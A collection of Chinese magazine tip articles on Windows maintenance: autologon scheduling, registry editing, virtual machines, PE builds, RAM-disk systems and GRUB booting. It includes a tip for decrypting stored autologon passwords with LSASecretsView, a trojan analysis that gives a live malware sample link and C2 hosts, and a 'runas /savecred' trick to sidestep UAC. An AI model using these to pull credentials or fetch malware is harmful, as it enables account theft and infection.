> 小提示：只要设置过系统自动登录（即使后来取消自动登录并更改账户密码），在注册表 [HKLM\SECURITY\Policy\Secrets\DefaultPassword] 下就会自动保存账户密码。登录密码可以借助LSASecretsView（下载地址：http://www.xfocus.net/tools/200705/LSASecretsView.rar）查看，以管理员身份运行LSASecretsView后会自动读取上述键值数据并进行解密，其中的 [DefaultPassword] 就是当前账户自动登录密码。

- 4. 再次输入 "control userpasswords2"，操作同上设置原来账户自动登录，同上将其账户和密码键值导出为 "C:\3.reg" 和 "C:\4.reg"。

- 5. 启动记事本程序，输入下列的代码保存为 "C:\1.bat"，代码如下：

```
Regedit.exe /s c:\1.reg
Regedit.exe /s c:\2.reg
```

- 6. 同上继续制作另一个批处理 "C:\2.bat"，代码如下：

```
Regedit.exe /s c:\3.reg
Regedit.exe /s c:\4.reg
Regedit.exe /s c:\u2.reg
Shutdown -r
```

批处理解释：第一个批处理意思是导入相应的键值，实现CFAN账户自动登录和U盘只读。这样只要在任务计划中设置每周五下班前运行该批处理，即可实现双休日CFAN账户自动登录。批处理2则是恢复U盘可写，设置原来账户自动登录并自动重启。这样只要每周一上班前运行该批处理即可。

### 第三步：设置任务计划自动实现指定账户自动登录

- 1. 单击 "开始"，在搜索框输入 "任务计划"，接着在搜索结果单击启动 "本地任务计划" 程序，启动程序后单击右侧窗格的 "创建任务"，按提示创建一个名为 "双休专用" 的新任务，并单选 "不管用户是否登录都要运行"，同时勾选其下的 "使用最高权限" 运行。

- 2. 切换到 "触发器"，然后单击 "新建"，新建一个每周五17:20触发操作（假设17:30下班）。切换到 "操作"，新建一个启动程序操作，执行的程序是 "C:\1.bat"，这样每周五下班之前就会自动导入键值，实现下次启动电脑时是使用CFAN账户自动登录。

- 3. 操作同上，在新建一个每周一8:05（假设8:00上班）执行的任务计划，执行的程序是 "c:\2.bat"。

> 小提示：任务计划可以设置任意时间运行，因此我们也可以设置每天午休时间运行（只要加个重启命令），实现中午下班后使用指定账户登录，以防止某些同事利用午休时间使用公司电脑。

OK，完成上述操作后，公司的电脑在每周五下班之前都会自动设置为CFAN账户自动登录。如果双休日有同事要使用电脑，电脑就只能运行Office软件。周一上班后电脑会执行一个重启操作，重启后就是用原来账户登录，具体使用和原来一样。怎么样，这个周末电脑保安可以很好保护公司的电脑吧。

(文/俞木发)

## 软件小管家 打造弹出式 '桌面'

许多用户都喜欢将常用程序的快捷方式、常用文件排布于桌面之上，一般情况下，从桌面上运行它们是比较快捷的，但桌面上打开窗口较多时，要打开桌面上的程序或文件，就得先单击快速启动栏中的 "显示桌面" 图标，回到桌面后再去执行。与其如此，何不把 "桌面" 直接放置到快速启动栏中呢？QQ软件小管家就是基于这样的思路来设计的，通过它，可以直接从快速启动栏中打开自定义的桌面。

### step1: 请出 '软件小管家'

打开QQ电脑管家，单击 "软件管理"，然后单击右下角的 "软件小管家"，这时就可以在快速启动栏中看到 "软件小管家" 的启动图标。

### Step2: 体验方便的弹出式桌面

单击启动图标，可以看到漂亮的弹出式桌面，旋转鼠标滚轮，或者单击翻页按钮，可以切换桌面上的程序图标。从这个弹出式桌面上，单击图标即可运行，相当方便。

### Step3: 自定义桌面图标

我们既可以删除桌面上不常用的图标，也可加入新的常用图标。单击弹出式桌面右上角 "编辑" 按钮，桌面所有图标上都出现 "-" 号，单击这个 "-" 号，则该图标从桌面上删除。也可以把桌面上的图标拖离桌面实现删除。单击桌面右上角 "添加" 按钮，可以向桌面上添加其它的程序快捷方式或文件，也可把它们直接拖入到桌面上，完成后，退出编辑模式生效。另外，在编辑模式下，可以拖动图标以改变它们在桌面上的位置。喜欢用快捷键来操作电脑的用户，也能通过快捷键来操作弹出式桌面，先按下 "Win+~" 激活小管家，然后就可以通过 "Alt+数字键" 来打开对应的程序，具体对应的程序，可以通过 "帮助" 按钮查看到。有了小管家，你完全可以把真正的桌面打扫得干净一点。

(文/曹春华)

## XP下修改Windows 7的注册表

最近使用Windows 7时误修改了注册表，导致开机出现错误，进入不了系统。进入高级启动模式选择 "恢复上一次的正确配置" 依然无法开机。虽然平时有备份注册表的习惯，却无法导入。幸好安装了双系统，可以在XP中维护修复，可是大家都知道，这样直接修改是修改的XP的注册表，而不是Windows 7，那怎么在XP中修改Windows 7的注册表呢？

在windows中，注册表其实是以文件形式存在的，只要我们找到指定的注册表文件就可以对其进行修改。Windows中注册表主体都保存在windows\system32\config文件夹下。

启动XP，打开注册表，选中HKEY_LOCAL_MACHINE，点击文件，选择加载配置单元，定位到windows\system32\config文件夹，这时就会看到system software几个没有后缀的文件，这些就是注册表文件。比如我要修改system下的设置，就选择system，项名称中随便输入一个名如abcd然后就会发现HKEY_LOCAL_MACHINE下多了abcd项，现在只要对它进行修改就可以了。

下面说一下如何导入已经备份的注册表。用记事本打开备份的.reg文件，将里面的system全部替换为abcd。这里有个技巧，为了防止有同名字符，替换时最好将替换字符设为 "HKEY_LOCAL_MACHINE\system"，替换 "HKEY_LOCAL_MACHINE\abcd"，替换完成后双击导入即可。最后记得卸载配置单元。重启进入windows 7，终于见到久违的桌面了！

(文/王子问)

## 快速创建虚拟机 我有我方法

安装虚拟机时是否一定要按部就班一步步来安装？有没有更快的方法？读完此文你定会恍然大悟，原来虚拟机可以这样快速创建！

近日一直在研究2008r2系统引导文件的问题，安装了N次系统，安装一次大概需要40分钟左右，研究过程中最烦人的莫过于等待系统的安装了。在虚拟机中安装系统一直都是用安装文件直接安装，所需时间较长，能不能有一种方法能实现虚拟机中系统的快速安装呢？经过一番研究，发现可以快速创建虚拟机的方法还真不少！

## Ghost法

Ghost安装系统大家都不陌生，这是在安装系统时应用的最普遍的一种方式，但虚拟机中能用ghost吗？笔者最初曾用过，但安装好的虚拟机却不能启动，启动时提示：Boot failure……，提示引导失败，选择合适的引导设备或者在选择的引导设备中插入媒介重启。用PE启动，进入C盘查看，发现所有的文件都在，既然系统所需文件齐全，为什么不能启动呢？会不会是磁盘没有激活？用DiskMan查看，果不其然还是没有激活。

在C盘上右键/激活当前分区，激活C盘，成功启动。原来在虚拟机中ghost也是可用的，只是要注意别忽视了激活这一关。

## 导出虚拟机

如果采用了虚拟服务器，你就会发现我们会用到许多相同的虚拟机，这些虚拟机是不是要一次次的安装呢？第一个虚拟服务器最好是用安装文件直接安装（你敢用下载来的GHOST来做服务器的系统？），一旦有了安装好的虚拟机，以后再创建就方便得多。以前用VMware时，只要将虚拟机文件拷贝双击就可以使用，但在2008r2 Hyper-V下拷贝来的虚拟机文件却不能使用，还好系统为我们提供了虚拟机导出的功能，在选定的虚拟机上右键/导出，然后再将导出的虚拟机导入就可以使用了。如果直接将导出的导入，那再要导入时就不得不重新导出了，所以如果想要多次使用导出文件，就需导入时重新拷贝一份，用拷贝的导入。

## 直接导入虚拟磁盘

尽管虚拟机文件不可以直接拷贝使用，但可以导入拷贝来的虚拟磁盘，这一发现源于试验向虚拟机中添加磁盘时的突发奇想：既然可以向虚拟机中添加新创建的磁盘，那是不是也可以直接使用其它虚拟机创建好的磁盘呢？事实证明，直接导入磁盘比导入虚拟机更快捷。要注意的一点是，VMware虚拟机对硬件要求不是很严格，而Hyper-V则严格的多，在同一台机器使用中不会有问题，如果要导入其它机器导出的虚拟机，用在配置不同的机器上可能会出现一些问题，不过经过修改一般还是可以使用的。

## 差异磁盘法

差异磁盘最为神奇，突破了传统磁盘的概念，类似于增量备份，创建这种磁盘要利用已建立好的虚拟机磁盘，以此虚拟机系统安装后的磁盘为母盘建立差异磁盘，并将此差异磁盘指派给新的虚拟机来使用，当你使用新的虚拟机后，它仍会以母盘内的系统来启动，但是此后在此系统内所进行的任何变动都会被保存在差异磁盘内，而不会改变母盘的内容。这样不但创建新的系统快捷，而且节省了磁盘空间。差异磁盘技术在节省硬盘空间的同时，却带来了一个问题，由于依据母盘新派生出来的系统都是具有同样的SID，这将会给实验环境带来问题。不过不用担心，系统早已为你准备好了解决方案，Windows 2008r2安装后在系统中自带了SYSPREP工具(C:\Windows\System32\sysprep\sysprep.exe)，通过此程序更改新派生出来的系统的SID，让这些问题不再成为问题。值得注意的是更改SID需要在创建磁盘之前进行，否则创建的磁盘不能启动。

以上创建的方法有的是自己在工作一直在使用，比如虚拟机导入；有的是经过长期的思索才出现了问题所在，比如用ghost安装；差异磁盘法则是在研究虚拟磁盘时的灵光一现，这些方法不一定全面，只是给大家一个抛砖引玉的作用，或许还有更多更快的创建虚拟的方法等待着我们去发现。 (山东/王洪波)

## 动动手 让PE更强大

PE是大家最常用的维护系统了，网上也有许多高手制作好的各种PE维护系统，不过网上PE品种繁多，功能各异，如果只是使用其中的某个PE维护系统，难免会在实际使用中受到各种限制，比如某些PE无法识别新电脑的硬件，或者无法在低配置电脑上启动等。何不自己对常见PE进行一番改造？

## 改造实战1：集成驱动——让PE支持硬件更全面

改造目标：通过自行添加指定硬件驱动，让PE有更好的适应性，可以识别新硬件

使用工具：Win7自带DISM命令行

改造实例：为PE添加网卡驱动

现在很多PE都集成网络功能，我们可以在PE上网，利用取之不尽的网络资源，从而大大扩展PE功能。网络功能是基于网卡存在，担心自己电脑的网卡在PE无法识别？我们可以通过DISM命令行往PE中手动集成网卡驱动。这里以Win7光盘自带原版PE为例。由于要往PE写入文件，这里采用U盘PE维护系统。

注意：由于DISM只支持PE3.0以上版本（即Win7自带，内核版本为“6.1.7601.16380”以上版本）。操作之前请确保集成目标PE符合上述条件。

## 第一步：制作U盘PE

U盘PE制作很简单，首先到“http://www.kuaipan.cn/index.php?ac=file&oid=3237430383608086”下载“BOOTICE.exe”，以管理员身份启动程序后在磁盘列表选中U盘，然后单击“主引导记录”，将U盘引导记录设置为“Windows NT6.x默认引导程序”，接着使用虚拟光驱加载Win7安装文件，将除“sources\install.wim”之外的所有文件复制到U盘即可。

## 第二步：提取网卡驱动并装载PE镜像

使用“驱动精灵”等备份软件获得本机网卡的驱动（驱动要包含.inf文件和.sys文件），然后将网卡驱动复制出来保存在一个目录中，假设为“e:\802”。接着到http://www.kuaipan.cn/index.php?ac=file&oid=3237430383608198下载“gimagex”，以管理员身份运行下载到的“Gimagex”，切换到“装载镜像”，装载到目录选择“E:\aa”，镜像选择“U盘\sources\boot.wim”文件，要装载的映像卷选择“1”，勾选“读取和写入”，最后单击“装载”，按提示将PE镜像以可写方式转载到指定目录。

注意：要使装载的镜像可写，装载目录所在分区一定要为NTFS格式，并保证有足够的可用空间

## 第三步：集成网卡驱动并保存镜像

以管理员身份启动命令提示符，输入“dism / image:e:\aa /add-driver/driver:e:\802\ome5.inf / ForceUnsigned”集成网卡驱动（oem5.inf指上述提取的网卡驱动安装配制文件），完成驱动集成后，返回Gimagex界面，选中需要卸载的镜像，同时勾选下方的“提交更改”，单击“卸载”，完成提交后U盘中的PE就包含网卡驱动了。

## 深度解析 防范网购木马

每到节假日都会出现网购高峰，购物网站和网络支付的普及让越来越多的用户加入到了网购大军中。巨大的金额和安全意识薄弱的用户群让黑客集团垂涎三尺，网购木马也成为最近增长最快的安全威胁。网购木马最先出现于2010年，主要以发送样品图等为借口通过QQ、旺旺等即时聊天工具进行传播。木马运行后会自动修改用户支付的账号和金额，将网民的网银以及支付宝、财付通第三方支付平台账户里的钱转到黑客的账户里。与前几年的钓鱼网站相比，网购木马隐藏更深，让普通用户很难察觉和判断，一旦感染就可能造成重大危害。网购木马究竟是如何在“暗处”操作，让受害者在不知不觉中中招的呢？让我们从试验中来寻找答案吧！

样本下载地址：http://www.kuaipan.cn/file/id_77435683366_5633.html
测试环境：Vmware Workstation Windows XP SP3 无安全软件

经过对样本的收集，发现网购木马原理都很相似，而且压缩炸弹型木马很流行。你得到的压缩文件很小，可是解压出来的文件却相当大。压缩的木马文件是105KB，而解压得到的文件是260MB，压缩比达到了2500:1。木马为什么要用这个方式呢？原因是现在大多数的安全软件都有云安全功能，会自动上传可疑文件。但是为了不拖累用户的电脑，安全软件上传的文件都是有大小限制的，比如20MB。超过的将不再上传。这样网购木马通过添加大量垃圾数据，使文件体积变得很大，躲避云安全上传，增加自己的存活时间。另外，这个压缩包的拓展名为*.Bz2，这是一种不常见压缩格式，可能有部分安全软件无法解压，这样也降低了杀软的检测率。

在虚拟机里双击样本运行，检测到以下行为：加载动态链接库文件“MSVBVM60.DLL”，“SXS.DLL”，“vb6chs.dll”。创建“C:\Documents and Settings\Administrator\My Documents\taobao\scb.exe”文件，并将自身复制到该文件夹，命名为“s.exe”。

向svchost.exe进程中注入代码，出现对话框，提示系统不支持，然后结束自身进程。这也是网购木马的一个惯用伎俩。提示“系统不支持”说明你的软件有问题，而对方可以有理由应对，比如“怎么这样啊，那我晚上再发给你吧。”等等，让你不会怀疑。如果打开后什么现象都没有，那你可能就要怀疑了。

这里简单介绍一下注入：自己系统里无缘无故多了一个进程可能会引起用户的怀疑，为了隐藏自身，很多病毒采用注入的手段。一般一个进程向另一个进程注入有两个方式，一是直接向目标进程写入指令，然后执行。另一种方式是释放动态链接库，加载到目标进程中，达到注入的目的。这个木马采用的是第一种方法，木马还在运行，可是你看到不到它的进程。

然后骗子会千方百计的骗您进行一次支付，如故意打到你的账户一小笔钱，再联系你说钱打错了，让你退回去。等到用户进行支付操作时，scd.exe就会启动。我们看看它的行为。

- 开始还是加载动态库，并连接到 72.52.103.218 (北京市电信)和219.142.78.222 (美国虚拟主机)。
- 在IE浏览器临时文件夹中创建文件“user[2].htm”和“ip[1].htm”。
- 从远程文件：“cc529550524.ush.23fo.com/user.asp?user1=admin1”读取数据到本地。
- 从远程文件：“counter.sina.com.cn/ip”读取数据到本地。
- 尝试打开远程文件：“cc529550524.ush.23fo.com/post/post.asp”。

接着该进程会先暂停浏览器进程，然后根据联网获得的信息修改IE缓存文件中的关键部分，然后再恢复浏览器进程，此时就会显示替换过交易对象和金额的页面。用户此时如果进行交易的话，钱就会支付到黑客的账户上。SSL加密和安全控件都没有任何作用。我认为这也可以说是IE的一个漏洞：对缓存文件没有保护。

安全网购，杜绝网购木马的几点建议：
- 安装必要的安全软件，并打开实时防护。目前国内的安全软件都普遍有网购保镖功能，在你进行网购时自动扫描电脑里运行的程序，提高安全软件的防御级别，阻止安全性未知的程序的运行，并自动拦截钓鱼网站等。
- 不要轻易接收陌生人发送的文件，打开前使用安全软件进行扫描，这样可以有效的识别和清除木马文件。
- 自己要学习必要的计算机安全知识，养成良好的上网习惯。比如常见图片文件的拓展名是*.jpg、*.gif和*.bmp，那么发送*.exe、*.scr等可执行程序的人肯定是骗子。交易前要核对网站域名和交易信息，并使用第三方交易平台进行支付，直接汇款风险很大。一旦遭到诈骗时要保留证据（如发送的文件、网站截图和聊天记录等）并及时报警。

（文/刘辛未 隋兆英）

## 化繁为简 打造文件操作“右键快车”

平时我们经常用右键菜单快速对文件进行操作，不过对于系统没有注册的文件如“WIM镜像文件”、“VHD虚拟硬盘文件”就无法使用右键快捷操作了。其实对于这些可使用系统自带命令操作的文件，我们可以手动为这些文件打造“右键快车”。

## 右键快车扫盲——了解指定文件类型右键菜单

大家知道不同文件类型右键菜单是不同的，比如MP3文件右键第一菜单是“播放”，通过这个菜单即可快速调用系统自带“Windows Media Player”播放MP3文件。之所以可以使用右键菜单快速操作，这是因为在注册表[HKEY_CLASSES_ROOT]下已经存在[.mp3]和[MP3File]这两个键值，前者是文件类型的注册键值，后者中的[HKEY_CLASSES_ROOT\docxfile\shell\open\command]则是右键菜单快速操作命令。

从上述描述我们知道，要对某一类型的文件添加快速操作右键菜单，只要在注册表中对其注册，同时在[command]键值下添加快速操作命令即可。因此我们可以使用这个方法对常见的文件添加快速操作右键菜单。比如“WIM镜像文件”是Win7安装文件类型（Imagex增量备份也使用该格式），在日常操作中我们经常要加载这种类型的文件来提取系统文件。不过常规的操作是借助系统自带的“DISM命令+各种参数”完成，操作并不方便，现在可以使用前面介绍的方法，将WIM文件注册并添加快速操作命令。

## 实战——为“WIM文件”添加一键加载 / 卸载

第1步：双击下载到的“win.reg”代码导入注册表（下载地址为http://dl.dbank.com/c0fymqavu9）。完成上述代码的添加后，只要双击该文件导入注册表，以后在任意WIM上右击就可以选择“加载映像1”或者“卸载映像”。

第2步：如果选择“加载映像1”，此时会自动出现命令行提示符窗口，DISM命令就会自动开始加载映像1到指定的目录了。加载完成后只要打开“K:\mount”即可看到加载文件，卸载操作类似。这里要注意的是，由于这个命令是将映像加载到指定“K:\mount”目录，因此要加载其他映像是一定要先执行映像的卸载，否则无法正常加载。

## 小知识：

```
“win.reg”关键代码及其他类型文件扩展介绍
[HKEY_CLASSES_ROOT\wimfile]
[HKEY_CLASSES_ROOT\wimfile\DefaultIcon]
@=“%SystemRoot%\system32\SHELL32.dll,-8”
[HKEY_CLASSES_ROOT\wimfile\shell]
[HKEY_CLASSES_ROOT\wimfile\shell\Mountwim]
@=“加载映像1”
[HKEY_CLASSES_ROOT\wimfile\shell\Mountwim\command]
@=“runas /savecred /user:administrator "dism /mount-wim /wimfile:"%1" /index:1 /mountdir:k:\mount"”
1. 第2行代码表示注册指定“.Wim”类型文件，如果要注册其他文件如VHD虚拟磁盘文件则将2、3行代码中“.wim”更改为“.vhd”。
2. 第5、6、7行代码则表示建立右键菜单的名称，并且对菜单名称赋值为“加载映像1”。如果是其他类型文件，只要更改其中的“wimfile”名称和菜单名称即可。
3. 第8、9行代码表示执行的快速操作命令，其中“@”的赋值就是执行指定的命令行。这是打造右键菜单的关键，如果要打造其他快捷操作，只要替换其中的具体命令即可：“runas /savecred /user:administrator”表示以内置“administrator”账户执行指定命令，同时保存运行凭据（这样只要第一次运行时输入Administrator账户密码即可）。因为Win7的“用户账户控制”组件存在经常会导致快捷命令被拦截，这里建议使用Administrator账户运行以避免拦截（注意：要使用Administrator账户，只要右击桌面计算机选择“管理/本地用户和组/用户”，选中Administrator账户进行操作即可，还需手动设置密码）。“dism /mount-wim /wimfile:"%1" /index:1 /mountdir:k:\mount\”。表示使用系统内置的DISM命令行加载当前选中的WIM文件中的“映像1”加载到“K:\mount”目录中。如果经常需要加载多个映像，在[HKEY_CLASSES_ROOT\wimfile\shell]添加[Mountwim2]、[Mountwim3]，并赋予对应的命令即可。
```

## 举一反三 自制“右键快车”

从上面介绍我们可以看出，快捷操作的关键是添加指定命令行到[command]键值中。对于很多支持命令行操作的文件，我们可以使用同样的方法添加快捷菜单。下面介绍2个扩展实例（读者可以直接下载其中注册表文件导入）。

- 为VHD文件添加一键加载/卸载
Win7支持VHD原生启动，VHD默认加载和卸载都需要通过计算机管理界面完成。其实它支持Diskpart命令操作，其他代码同上（wimfile更改为vhdfile），只要将下载的“VHD注册表文件.reg”导入即可。其中的命令表示使用diskpart自动加载和卸载VHD文件，导入以后只要右击VHD文件选择“mount”或“unmount”即可一键加载/卸载VHD文件。
- 为所有文件添加“获取管理员权限”
由于Win7使用严格的权限管理，即使我们以管理员身份登陆仍然对很多系统文件没有读取权限。要完成权限的更改需要先取得文件所有者，然后赋予完全控制权限才能对这些文件进行操作。将下载的“管理员取得所有权.reg”导入注册表后就可以一键取得管理员权限了。其中的[HKEY_CLASSES_ROOT\*]和[HKEY_CLASSES_ROOT\Directory\shell\runas\command]表示在所有文件和文件夹上添加“管理员取得所有权”菜单，命令行则表示先取得文件（夹）所有权，然后将完全控制权限赋予管理员组，以后只要在任意文件（夹）右击选择“管理员取得所有权”，即可取得文件（夹）完全控制权限。

（文/俞木发）

## 媲美SSD硬盘 打造高速内存系统

大家知道SSD固态硬盘的最大优势就是读写速度快。如果把操作系统安装在SSD硬盘，可以有效提高系统运行效率，不过现在SSD硬盘价格仍然让人望而却步，其实随着内存价格的不断走低，现在拥有大内存用户越来越多，那么我们就可以把系统安装到内存中，打造高速内存系统，实现类似SSD硬盘的加速效果。

### 小知识：

什么是内存操作系统...顾名思义就是运行在内存中的系统，它利用特殊软件将部分内存虚拟为硬盘，然后将预先制作好的系统镜像加载到虚拟硬盘中，从而实现系统在内存中运行，利用内存高速读写特性实现系统的高速运行

### 内存操作系统能给我们带来什么好处？

- 带来极速体验。内存读写速度远远超过普通硬盘，把系统放在内存中运行，可以享受到系统飞一般感觉。经过实测DDR800内存读写速度分别达到790MB/s和9000MB/s的高速，几乎是普通硬盘读写速度的5倍！
- 不用分区，轻松拥有双系统。内存系统是一个IMG格式镜像文件，可以放置在任意分区，这样不用重新分区就可以拥有双系统。
- 作为维护系统使用。由于内存系统运行在内存中，重启后内存系统所有操作都会归零，这样这个系统就永远不会中毒，非常适合作为本机备用的维护系统。

了解内存系统的好处后，下面我们就一起来制作吧。这里以在Win7旗舰版下制作内存版Win7为例。由于默认Win7系统比较大，内存版Win7只能使用精简系统。

- 所需软件及下载地址：
1. 网友精简“WIN7LITE7620EX”系统：http://u.115.com/file/bh7m4vw)
2. WinPE系统：http://bbs.wuyou.com/viewthread.php?tid=157912
3. 其他所需软件：http://www.kuaipan.cn/file/id_3237430383608184.html

### 第一步：安装内存操作系统

- 将下载到的“grldr”、“grldr.mbr”和“menu.lst”放置在C盘根目录，将“WinPE系统”（单个Winpe.iso文件）和“精简Win7”（WIN7LITE7620EX.exe文件）放在D盘备用，接着运行其中BOOTICE.EXE，切换到“BCD编辑”选项卡，然后单击“查看/修改”。在弹出的窗口单击“添加→实模式启动项”，添加一个名为“Grub for dos”启动项（见图1）。



- 重启后选择“Grub for dos”启动项进入WinPE系统。单击“开始→Imdisk虚拟磁盘”，启动该软件后，加载“d:\winpe.iso”文件。返回桌面双击“加载外部配置”，成功加载配置后单击“开始→程序→克隆工具→步步为营备份还原”。启动程序后选择“全新备份分区”，按提示将当前系统分区备份为“D:\c.wim”（见图2）。



- 完成当前系统备份后，按提示将当前系统分区格式化，接着运行下载到的精简Win7系统（d:\WIN7LITE7620EX.exe），按屏幕提示完成安装即可。这样就完成精简Win7的安装操作了。

### 第二步：配置内存操作系统

- 重启并进入精简系统，安装所需的驱动和必要的软件。接着同上将下载到的“grldr”、“grldr.mbr”和“menu.lst”放置在C盘根目录并添加“Grub for dos”启动项。

- 以管理员身份运行下载到的“RamosTools”，单击“点击这里初始化深度ramos环境”，弹出安装驱动提示时，选择“始终安装此驱动程序软件”，安装所需的虚拟磁盘驱动。完成安装后打开“设备管理器”，展开“存储控制器”，确保已经成功添加“FiraDisk Virtual Disk Enumerator”驱动（见图3）。



- 返回“RamosTools”界面，单击“创建镜像”，按提示在任意NTFS分区下创建一个名为“ramos.img”的镜像文件，大小为“1989MB”（不要超过2GB，否则可能无法加载），单击“创建”（见图4）。



- 成功创建镜像后，单击“装载/卸载”，按提示将上述创建的镜像加载为A盘，此时打开资源管理器格式化A盘，接着再启动注册表编辑器，展开[HKEY_LOCAL_MACHINE\SYSTEM]，将其下的[MountedDevices]键值删除。

### 第三步：封装内存系统

- 同上重启后选择“Grub for dos”进入WinPE系统，接着启动“RamosTools”按提示将“D:\ramos.img”加载到A盘，打开资源管理器将C盘标示的下列文件全部复制到A盘（见图6）。







- 完成文件的复制后，现在就可以将C盘格式化了，格式化完成后启动“步步为营备份还原”。启动程序后选择“还原镜像到系统”，按提示将上述创建的“D:\c.wim”恢复到C盘。

- 以后如果要使用内存操作系统，重启后选择“Grub for dos”，在其多重启动选择“ramos”，程序就会将“d:\ramos.img”加载到内存运行了。成功进入系统后，打开磁盘管理可以看到当前系统分区在磁盘1（即虚拟磁盘，见图7）。

## 第四步：内存系统的维护

由于上述系统是在内存中运行，我们在内存系统中执行的所有操作都会在重启后归零。

因此如果要保存内存系统的数据如自己安装的输入法、升级的病毒库等数据，我们可以使用 Win7 自带的热备份工具。

1.  在内存系统安装需要保存的软件，接着依次展开“控制面板→系统和安全→备份和还原”，在打开的窗口单击左侧窗格的“创建系统镜像”按钮。剩下操作按屏幕的提示将指定分区（内存系统 C 盘和原来系统分区）创建为 VHD 镜像。

注意：镜像加载到内存需要一定时间，此时电脑会像死机一样，请耐心等待！一般需要 5~10 分钟的时间才能进入内存系统。

2.  假设创建的 VHD 镜像保存在 J 盘，完成上述创建操作后打开“J:\WindowsImageBackup\计算机名\Backup 备份日期”文件夹，其中类似“94228db2-ca6b-11e0-8840-806e6f6e6963.vhd”文件就是当前内存系统热备份文件（有两个 VHD 文件，内存系统的文件较小只有 1.5GB 左右）。

3.  双击下载到的“vhd 菜单项.reg”文件将其导入注册表，然后右击上述的 VHD 文件选择“mount”加载，此时 VHD 文件会自动加载到资源管理器中，假设盘符为 M：同上使用“RamosTools”将“D:\ramos.img”加载到 A 盘并格式化。现在只要打开资源管理器，将 M 盘全部文件复制到 A 盘即完成数据保存操作。以后再次使用内存系统时就可以使用制作镜像之前保存的数据了。

小提示：

如果制作的是内存 XP 系统，只要在内存 XP 中运行“RamosTools”，加载“D:\ramos.img”后，切换到“Ramos 热备份”，按提示将当前 C 盘内容全部上传到 A 盘即可。由于 Win7 系统存在大量的软、硬链接，无法使用“RamosTools”热备份。

（文/俞木发）

## 未雨绸缪 上网本添加“光盘”修复

现在很多 MM 都爱使用轻薄的上网本，可是这些本本都没有光驱，如果预装的 Win7 出现故障无法启动，微软的建议是插入 Win7 安装光盘进行修复，可是没有光驱，怎么使用光盘进行修复？其实对于上网本用户，我们可以将“光盘”插入到本地硬盘，以备不时之需使用。

第1步：到 http://www.kuaipan.cn/file/id_3237430383608185.html 下载所需的软件，下载后将“grldr”和“bootace.exe”复制到 C 盘根目录下。接着以管理员身份运行其中的“bootace.exe”，在“目标磁盘”选中当前上网本的硬盘，单击“主引导记录”，接着在弹出的窗口单击“备份 MBR”，按提示将当前引导记录以“cfan.bin”为名备份到 D 盘。

小提示：因为更改主引导记录操作比较危险，操作前一定要做好备份操作。万一发生更改错误，可以使用 PE 启动盘启动系统，再次运行“bootace.exe”，导入上述的备份进行恢复。

第2步：备份完成后返回上述界面，在“要更改类型”下单选“grub4DOS 0.4.5b MBR（grldr.mbr）”，最后单击“安装/配置”按钮。

第3步：在弹出的设置窗口，勾选“优先尝试引导原来 MBR”，接着在“热键设置”选项下单击“选择”，然后按下一个键位作为启动热键如 F4，延时时间设置为“2”秒，这样系统引导和原来一样，只是我们可以在开机启动 2 秒内按下 F4 键即可激活 Grldr 引导，最后单击“写入磁盘”，将当前主引导记录更改为 GRUB 引导格式。

第4步：自行准备好 Win7 安装文件（ISO 格式）并命名为“Win7.iso”，放置在任意分区的根目录下，接着启动记事本程序，输入下列的代码保存为“menu.lst”，然后放置在 C 盘根目录下。

```
timeout 2
default /default
title Win7ISO
find --set-root /win7.iso
map /win7.iso (hd32)
map --hook
chainloader (hd32)
```

第5步：经过上述的操作后，现在重启上网本，如果上网本的系统正常，则使用和原来一致。如果系统出现异常无法引导进入 Win7，则可以重启后在屏幕出现“Press F4 to start GRUB, any other key to boot previous MBR…”提示时，按下 F4 键（2 秒内），系统就会自动加载“Win7.iso”启动，后面的操作和插入 Win7 安装光盘是一样的，按屏幕提示进行修复操作即可。

### 写在最后——更多扩展应用

“C:\menu.lst”文件中的引导代码是直接以 GRUB 支持仿真光驱的形式引导 ISO 文件，实现无光驱电脑的“光盘”启动效果。因此只要是可引导的 ISO 文件（如 PE 光盘文件、Ubuntu 安装文件、瑞星 Linux 格式杀毒引导文件等），我们都可以依葫芦画瓢添加到“menu.lst”菜单中（只要将“win7.iso”更改为具体 *.iso 文件即可），实现上网本用户重装系统、PE 引导或者 Linux 光盘杀毒等效果。

（文/俞木发）

## 让 Windows 7 也能搜索 PDF 文档

上级部门经常会以 PDF 格式作为邮件附件，日积月累，办公室小周的计算机中保存了许多 PDF 格式的文档，很多时候，领导要求从这些 PDF 文档中搜索某些文件，可惜的是 Windows 7 并没有提供对 PDF 文档属性和内容方面的搜索支持，只能为属性添加索引，也就是只能搜索出文件名包含搜索关键字的 PDF 文档，小周每次只能逐一打开 PDF 文档进行手工搜索，效率相当的低下。

其实，小周可以为 Windows 7 系统安装 Foxit PDF IFilter 插件解决搜索 PDF 文档的困难。

访问 http://www.fuxinsoftware.com.cn/pdf/ifilter/，按照提示下载安装 Foxit PDF IFilter。在正式使用之前，还需要打开控制面板窗口对索引选项进行设置，在控制面板右上角的搜索框输入“索引选项”进行搜索，打开“索引选项”对话框，单击“修改”按钮，在这里只选择 PDF 文档所在的分区，确认之后关闭“索引位置”对话框，返回“索引选项”对话框，单击“高级”按钮，打开“高级选项”对话框，切换到“文件类型”选项卡，找到“pdf”扩展名项目，检查此处是否已经设置为“为属性和文件内容添加索引”，确认之后即可生效。

现在，当小周从已经设置索引的 PDF 文档所在分区进行搜索时，Windows 7 将快速搜索到内容符合搜索要求的 PDF 文档，而不再仅仅只是文件名符合搜索要求的文档，较以前的手工搜索显然是方便不少。

（文/王志军）

## 让 Windows 截图键“学会”自动存盘

小文在编写文档时，喜欢点击 PrintScreen 键，来简单快速地抓取图片。不过，该方法无法实现自动存盘功能，每次还得手工粘贴图片。有了 ScreenShoter 和 Purrint 这两款软件的帮助，就可以轻松解决上述问题。

在系统托盘中的“Purrint”软件上右键菜单中点击“选项”，在设置窗口（如图）中选择“截图后自动执行以下命令”项，勾选“保存到文件”项，激活自动存盘功能。点击浏览按钮，设置文件存盘路径、命令规则和文件格式。默认的命名规则为“Purrint.bmp”，保存的格式为 BMP，存盘路径为 C 盘根目录。实际上，您完全可以自定义命名规则（例如“图.bmp”等）。可选用的文件格式包括 BMP、JPG、GIF、PNG 等。接下来试试 Purrint 的威力吧！当点击“PrintScreen”键（或者“Alt+PrintScreen”键）后，Purrint 就可以在后台抓取全屏或者活动窗口图片内容，并将其自动保存到指定的路径中。



